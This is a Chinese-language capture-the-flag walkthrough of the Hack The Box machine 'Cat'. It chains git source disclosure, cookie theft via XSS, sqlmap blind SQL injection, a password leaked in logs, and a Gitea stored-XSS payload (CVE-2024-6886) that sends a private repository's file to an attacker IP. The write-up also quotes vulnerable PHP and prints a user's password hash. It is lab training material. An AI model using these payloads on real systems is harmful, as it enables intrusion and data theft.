## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap cat.htb

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Dirsearch

存在**git**泄露



用**git-dumper**获取到源码

```
[root@kali] /home/kali/Cat  
❯ git-dumper http://cat.htb/.git/ ./catgit  
```

## XSS

在**view\_cat.php**中发现存在**XSS**的可能性

```
<?php
session_start();

include 'config.php';

// Check if the user is logged in
if (!isset($_SESSION['username']) || $_SESSION['username'] !== 'axel') {
    header("Location: /join.php");
    exit();
}

// Get the cat_id from the URL
$cat_id = isset($_GET['cat_id']) ? $_GET['cat_id'] : null;

if ($cat_id) {
    // Prepare and execute the query
    $query = "SELECT cats.*, users.username FROM cats JOIN users ON cats.owner_username = users.username WHERE cat_id = :cat_id";
    $statement = $pdo->prepare($query);
    $statement->bindParam(':cat_id', $cat_id, PDO::PARAM_INT);
    $statement->execute();

    // Fetch cat data from the database
    $cat = $statement->fetch(PDO::FETCH_ASSOC);

    if (!$cat) {
        die("Cat not found.");
    }
} else {
    die("Invalid cat ID.");
}
?>

<div class="container">
    <h1>Cat Details: <?php echo $cat['cat_name']; ?></h1>
    " alt="<?php echo $cat['cat_name']; ?>" class="cat-photo">
    <div class="cat-info">
        <strong>Name:</strong> <?php echo $cat['cat_name']; ?><br>
        <strong>Age:</strong> <?php echo $cat['age']; ?><br>
        <strong>Birthdate:</strong> <?php echo $cat['birthdate']; ?><br>
        <strong>Weight:</strong> <?php echo $cat['weight']; ?> kg<br>
        <strong>Owner:</strong> <?php echo $cat['username']; ?><br>
        <strong>Created At:</strong> <?php echo $cat['created_at']; ?>
    </div>
</div>
```

可以看到这里是直接将用户名输出到页面

在**contest.php**中随意上传一个图片,然后等待管理员来查看获取到**cookie**

因此注入点就是注册时候的用户名

```

```



监听得到**cookie**



替换后可以进入**admin**的管理面板

## SQL Injection

在**accept\_cat.php**中发现了直接拼接的**sql**语句,**cat\_name**没有经过过滤

```
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>
```

在**config.php**中发现了数据库是**SQLlite**

```
<?php
// Database configuration
$db_file = '/databases/cat.db';

// Connect to the database
try {
    $pdo = new PDO("sqlite:$db_file");
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Error: " . $e->getMessage());
}
?>
```

因此多半是**SQL**盲注的类型

```
[root@kali] /home/kali/Cat/catgit (master) 
❯ sqlmap -u "http://cat.htb/accept_cat.php" --cookie="PHPSESSID=918f1nvps72fc7rvk5umu13jch" --data="catId=1&catName=123" -p catName --dbms=SQLite --level=5 
```



得到四个表



在**users**表中拿到了

```
rosamendoza485@gmail.com      ac369922d560f17d6eeb8b2c7dec498c
```

(如果爆不出来,可能需要重启靶机)

到这个网站去解密,我用**rockyou.txt**好像爆不出来

- [CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)



用这个密码登录**rosa**的账号,发现还有其他的几个用户



查看**apache**的日志,得到了**axel**的密码

```
rosa@cat:~$ cat /var/log/apache2/access.log | grep axel
```



登录后拿到**user.txt**



## ROOT

发现了内部开启了**3000**端口



将其转发出来,发现是一个**Git**服务

```
[root@kali] /home/kali  
❯ ssh  rosa@cat.htb -L 3000:127.0.0.1:3000
```



其版本号是**1.22.0**,我查询到了一个可能的**XSS**漏洞

### CVE-2024-6886

- [Gitea 1.22.0 - Stored XSS - Multiple webapps Exploit](https://www.exploit-db.com/exploits/52077)

在**/var/mail/axel**中得到一段留言



需要给**jobert**发邮件,然后他会检查仓库,造成**XSS**漏洞

**jobert**应该是有访问**employee-management**这个仓库的权限的

```
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.xx.xx/?content='+encodeURIComponent(data)))">XSS test</a>
```



由于**25**端口是开在**127.0.0.1**上的,因此也需要将其转发出来

使用以下命令给**jobert**发邮件

```
[root@kali] /home/kali  
❯swaks --to "jobert@localhost" --from "axel@localhost" --header "Click" --body "http://localhost:3000/axel/xss" --server localhost
```



进行**url**解码拿到密码



拿到**root.txt**



## Summary

`User`: 通过**Git**泄露拿到源码, 存在**SQL**注入漏洞拿到**rosa**的密码,由于网页的登录表单是通过**GET**明文传输的,因此在**apache**的日志中拿到**axel**的密码,从而拿到**user.txt**

`Root`: 将内网**3000**端口转发出来查找到**CVE**漏洞,在邮件中得到线索进一步确认是**XSS**漏洞,**employee-management**这个仓库自己无法访问只能通过**XSS**外带,最后在其**index.php**中拿到了密码
